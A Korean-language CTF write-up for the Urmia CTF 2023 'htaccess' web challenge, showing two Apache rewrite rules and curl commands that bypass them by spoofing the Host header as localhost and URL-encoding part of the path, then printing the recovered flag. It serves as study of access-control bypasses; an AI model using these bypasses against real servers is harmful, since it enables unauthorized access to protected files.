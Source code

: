 ```yaml
---
title: "[Urmia CTF 2023] htaccess(helicoptering) writeup"
date: 2023-09-03 11:01:00 +0900
categories: [WEB]
tags: [ctf, web, apache]
description: web ctf challenge about apache htaccess
---
```


## solve
![](/assets/img/posts/230903-01.png)

두개의 `.htaccess` 를 우회하면 flag를 획득할 수 있다.

```
$ curl http://htaccess.uctf.ir/one/flag.txt
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
</body></html>
```
만약 우회하지 않고 접근한다면 403을 반환한다.
```
RewriteEngine On
RewriteCond %{HTTP_HOST} !^localhost$
RewriteRule ".*" "-" [F]
```
첫 번째 `.htaccess` 는 HTTP_HOST가 localhost인지 확인한다.

```
$ curl -H 'Host: localhost' http://htaccess.uctf.ir/one/flag.txt
uctf{Sule_%
```
요청할 때 헤더에 Host를 바꿔주면 통과된다.

```
RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]
```
두 번째 `.htaccess` 는 THE_REQUEST 변수에 flag가 존재하는지 검사한다.

```
THE_REQUEST
    The full HTTP request line sent by the browser to the server
    (e.g., "GET /index.html HTTP/1.1"). This does not include any 
    additional headers sent by the browser. This value has not been 
    unescaped (decoded), unlike most other variables below.
```
[documentation](https://httpd.apache.org/docs/current/mod/mod_rewrite.html)에 의하면 request path 부분(GET /path HTTP/1.1)이 THE_REQUEST 변수에 해당하는 것으로 보인다. 또한, decoded text라고 하니, flag 부분을 url encode 해주면 될 것 같다.

```
$ curl http://htaccess.uctf.ir/two/%66lag.txt
Dukol_waterfall}%
```

f 부분만 %66으로 바꿔서 요청해주면 나머지 플래그를 획득할 수 있다.

`uctf{Sule_Dukol_waterfall}`

## ref.
[apache documentation](https://httpd.apache.org/docs/current/mod/mod_rewrite.html)